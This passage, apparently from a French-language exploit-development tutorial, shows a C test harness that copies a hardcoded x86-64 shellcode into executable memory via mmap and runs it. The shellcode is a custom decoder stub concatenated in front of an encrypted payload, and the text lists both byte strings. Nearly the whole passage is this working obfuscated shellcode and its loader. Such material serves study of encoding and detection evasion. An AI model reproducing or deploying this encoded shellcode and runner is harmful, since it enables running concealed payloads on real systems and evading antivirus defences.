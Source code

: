 ### Exécution du shellcode

Pour vérifier le bon fonctionnement du shellcode, nous allons utiliser un petit programme en C qui simulera son exécution.

Voici le code C en question :
```c
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>

char shellcode[] = \
  "\xeb\x5c\x5e\x48\x31\xdb\x48\x31\xc9\x48"
  "\x31\xd2\xb1\x66\xfe\xc2\x80\xfa\x02\x74"
  "\x06\xc0\x0c\x1e\x03\xeb\x07\xc0\x0c\x1e"
  "\x05\x48\x31\xd2\x80\xc3\x01\x80\xe9\x01"
  "\x71\xe4\x48\x31\xdb\x48\x31\xc9\x48\x31"
  "\xd2\xb1\x66\xfe\xc2\x80\xfa\x02\x74\x0b"
  "\x80\xfa\x03\x74\x0c\x80\x2c\x1e\x0d\xeb"
  "\x0d\x80\x34\x1e\x07\xeb\x07\x80\x04\x1e"
  "\x12\x48\x31\xd2\x80\xc3\x01\x80\xe9\x01"
  "\x71\xd9\xff\xe6\xe8\x9f\xff\xff\xff\xab"
  "\x0f\x7f\xe2\x1b\x8a\xab\xaf\xba\x6e\x6b"
  "\x1e\xaa\xc6\x06\xaa\xb1\x9c\x6a\x36\x7f"
  "\xaa\xb1\xbd\x6a\x16\x87\xaa\xb1\xd5\xed"
  "\xc5\xef\x42\x7a\xe3\xfe\xb6\xff\xaa\x54"
  "\x44\x89\xe9\xbb\x9a\x7a\xe3\x6e\xf6\xc0"
  "\x83\x10\xc6\xf1\x3e\xf4\xc5\x40\x7e\x6a"
  "\x3f\xa5\xb7\x31\xbf\x90\xe8\x67\x7a\xbd"
  "\xe1\xe0\x40\xb1\x99\x41\xa3\x7b\xcd\xe2"
  "\x87\xa3\xca\xaa\xc6\x27\x6c\x82\xc6\xf1"
  "\xba\xb1\x53\xd9\x42\xaa\xc6\x75\xb7\xe1"
  "\xbf\x90";

void main() {
    printf("Shellcode length : %u\n", strlen(shellcode));
    
    void * a = mmap(0, sizeof(shellcode), PROT_EXEC | PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0);
    ((void (*)(void)) memcpy(a, shellcode, sizeof(shellcode)))();
}
```

Comme vous pouvez le voir, le shellcode du décodeur a été concaténé devant le shellcode chiffré afin de former un unique shellcode final :
```shell
Shellcode du décodeur : \xeb\x5c\x5e\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\xb1\x66\xfe\xc2\x80\xfa\x02\x74\x06\xc0\x0c\x1e\x03\xeb\x07\xc0\x0c\x1e\x05\x48\x31\xd2\x80\xc3\x01\x80\xe9\x01\x71\xe4\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\xb1\x66\xfe\xc2\x80\xfa\x02\x74\x0b\x80\xfa\x03\x74\x0c\x80\x2c\x1e\x0d\xeb\x0d\x80\x34\x1e\x07\xeb\x07\x80\x04\x1e\x12\x48\x31\xd2\x80\xc3\x01\x80\xe9\x01\x71\xd9\xff\xe6\xe8\x9f\xff\xff\xff

Shellcode chiffré : \xab\x0f\x7f\xe2\x1b\x8a\xab\xaf\xba\x6e\x6b\x1e\xaa\xc6\x06\xaa\xb1\x9c\x6a\x36\x7f\xaa\xb1\xbd\x6a\x16\x87\xaa\xb1\xd5\xed\xc5\xef\x42\x7a\xe3\xfe\xb6\xff\xaa\x54\x44\x89\xe9\xbb\x9a\x7a\xe3\x6e\xf6\xc0\x83\x10\xc6\xf1\x3e\xf4\xc5\x40\x7e\x6a\x3f\xa5\xb7\x31\xbf\x90\xe8\x67\x7a\xbd\xe1\xe0\x40\xb1\x99\x41\xa3\x7b\xcd\xe2\x87\xa3\xca\xaa\xc6\x27\x6c\x82\xc6\xf1\xba\xb1\x53\xd9\x42\xaa\xc6\x75\xb7\xe1\xbf\x90

```